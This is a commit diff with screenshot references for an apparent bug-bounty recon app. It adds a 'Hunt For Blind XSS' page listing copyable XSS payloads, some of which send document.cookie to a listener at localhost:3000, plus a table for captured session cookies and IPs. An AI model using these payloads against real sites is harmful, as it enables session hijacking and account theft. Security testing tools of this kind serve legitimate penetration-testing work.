

Before and after one commit to yafet-dev/ai-based-recon, a React (Vite) app in the folder applications/: page / in a window 1280 px wide. Shown: the top 838 px of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
blind xss added

```diff
--- a/applications/src/App.jsx
+++ b/applications/src/App.jsx
@@ -9,6 +9,7 @@ import SqliHunter from "./views/SqliHunter.";
 import ProfilePage from "./views/ProfilePage";
 import HomePage from "./views/HomePage";
 import VerificationMessage from "./views/VerificationMessage";
+import BlindXssResults from "./views/BlindXssResults";
 // import PortScanner from "./views/PortScanner";
 // import XssHunter from "./views/XssHunter";
 // import SqliHunter from "./views/SqliHunter.";
@@ -16,7 +17,7 @@ import VerificationMessage from "./views/VerificationMessage";
 // import XssHunter from "./views/XssHunter";
 
 function App() {
-  return <VerificationMessage />;
+  return <BlindXssResults />;
 }
 
 export default App;
--- a/applications/src/components/PageNav.jsx
+++ b/applications/src/components/PageNav.jsx
@@ -8,6 +8,7 @@ const PageNav = () => {
         🌐 Hunter <span className={styles.lookup}>Tool</span>
       </div>
       <nav className={styles.nav}>
+        <a href="#findsubdomains">Blind XSS</a>
         <a href="#findsubdomains">Subdomain Finder</a>
         <a href="#portscanner">Port Scanner</a>
         <a href="#portscanner">Sqli Hunter</a>
--- /dev/null
+++ b/applications/src/views/BlindXssResults.jsx
@@ -0,0 +1,101 @@
+import React, { useEffect, useState } from "react";
+import PageNav from "./../components/PageNav";
+import styles from "./BlindXssResults.module.css";
+
+const BlindXssResults = () => {
+  const [results, setResults] = useState([
+    // {
+    //   timestamp: "2024-06-12T12:34:56Z",
+    //   ip: "192.168.0.1",
+    //   cookie: "sessionid=abc123; csrftoken=xyz789",
+    // },
+    // {
+    //   timestamp: "2024-06-12T13:45:23Z",
+    //   ip: "192.168.0.2",
+    //   cookie: "sessionid=def456; csrftoken=uvw123",
+    // },
+  ]);
+
+  const [payloadCopied, setPayloadCopied] = useState(false);
+
+  const payloads = [
+    "<script src='http://localhost:3000/blind-xss.js'></script>",
+    "<img src=x onerror='document.location=`http://localhost:3000/xss-listener?cookie=${document.cookie}`'>",
+    "<iframe src='http://localhost:3000/blind-xss.js'></iframe>",
+    "<svg/onload=fetch('http://localhost:3000/xss-listener?cookie='+document.cookie)>",
+  ];
+
+  const copyToClipboard = (payload) => {
+    navigator.clipboard.writeText(payload).then(
+      () => {
+        setPayloadCopied(true);
+      },
+      (err) => {
+        console.error("Could not copy text: ", err);
+      }
+    );
+  };
+
+  useEffect(() => {
+    // Uncomment the fetch call when ready to fetch from server
+    // fetch("http://localhost:3000/xss-results")
+    //   .then((response) => response.json())
+    //   .then((data) => setResults(data))
+    //   .catch((error) => console.error("Error fetching XSS results:", error));
+  }, []);
+
+  return (
+    <>
+      <PageNav />
+      <div className={styles.container}>
+        <h2 className={styles.title}>Hunt For Blind XSS</h2>
+
+        <div className={styles.payloadContainer}>
+          <h3 className={styles.payloadTitle}>Possible Payloads</h3>
+          {payloads.map((payload, index) => (
+            <div key={index} className={styles.payload}>
+              <span>{payload}</span>
+              <button
+                onClick={() => copyToClipboard(payload)}
+                className={styles.copyButton}
+              >
+                Copy
+              </button>
+            </div>
+          ))}
+        </div>
+
+        {payloadCopied && (
+          <p className={styles.noResultsMessage}>
+            We will let you know once the payload is executed.
+          </p>
+        )}
+
+        {results.length > 0 ? (
+          <table className={styles.table}>
+            <thead>
+              <tr>
+                <th>Timestamp</th>
+                <th>IP Address</th>
+                <th>Cookie</th>
+              </tr>
+            </thead>
+            <tbody>
+              {results.map((result, index) => (
+                <tr key={index}>
+                  <td>{new Date(result.timestamp).toLocaleString()}</td>
+                  <td>{result.ip}</td>
+                  <td>{result.cookie}</td>
+                </tr>
+              ))}
+            </tbody>
+          </table>
+        ) : (
+          <></>
+        )}
+      </div>
+    </>
+  );
+};
+
+export default BlindXssResults;
--- /dev/null
+++ b/applications/src/views/BlindXssResults.module.css
@@ -0,0 +1,87 @@
+.container {
+  display: flex;
+  flex-direction: column;
+  align-items: center;
+  padding: 2rem;
+  background-color: #f0f2f5;
+  height: 100vh;
+}
+
+.title {
+  font-size: 2rem;
+  margin-bottom: 2rem;
+  color: #333;
+}
+
+.payloadContainer {
+  width: 100%;
+  max-width: 1000px;
+  background-color: #fff;
+  padding: 2rem;
+  box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+  margin-bottom: 2rem;
+}
+.noResultsMessage {
+  font-size: 2rem;
+  color: #333;
+  text-align: center;
+  margin-top: 2rem;
+}
+.payloadTitle {
+  font-size: 1.5rem;
+  margin-bottom: 1rem;
+  color: #333;
+}
+
+.payload {
+  display: flex;
+  justify-content: space-between;
+  align-items: center;
+  padding: 0.5rem 0;
+  border-bottom: 1px solid #ddd;
+}
+
+.payload span {
+  font-family: monospace;
+  font-size: 1.4rem;
+}
+
+.copyButton {
+  padding: 0.5rem 2rem;
+  background: linear-gradient(90deg, #0059fc 0, #4d8bfd 100%);
+  border: none;
+  border-radius: 0.5rem;
+  color: white;
+  font-size: 1rem;
+  cursor: pointer;
+  transition: background 0.3s ease;
+}
+
+.copyButton:hover {
+  background: linear-gradient(90deg, #003bb5 0%, #366bdb 100%);
+}
+
+.table {
+  width: 100%;
+  font-size: 1.3rem;
+  max-width: 1000px;
+  border-collapse: collapse;
+  background-color: #fff;
+  box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+}
+
+.table th,
+.table td {
+  padding: 1rem;
+  text-align: left;
+  border-bottom: 1px solid #ddd;
+}
+
+.table th {
+  background-color: #007bff;
+  color: white;
+}
+
+.table tr:hover {
+  background-color: #f1f1f1;
+}
```
